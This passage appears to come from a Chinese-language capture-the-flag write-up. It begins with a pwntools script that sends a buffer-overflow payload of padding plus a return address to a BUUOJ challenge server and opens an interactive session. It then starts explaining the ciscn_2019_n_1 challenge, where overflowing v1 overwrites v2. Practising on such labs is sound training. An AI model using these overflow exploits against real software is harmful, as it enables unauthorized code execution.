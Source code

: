 ```python
from pwn import *

p = remote('node5.buuoj.cn', 28758)

payload = b'a' * (64+8) + p64(0x00400611)

p.sendline(payload)

p.interactive()
```



## ciscn_2019_n_1



还是一样思考

找危险函数在哪：

![image-20241027103445184](../_media/image-20241027103445184-1730729907677-381.png)

本题没有直接的危险函数可以接触了，而是通过v2的值判断来进入，但是我们并不能直接修改v2的值，而是修改v1的值，所以应该能猜测，v1溢出，然后将v2的值改为11.28125



双击点v1的值，顺带v2的也出来了

![image-20241027104739162](../_media/image-20241027104739162.png)
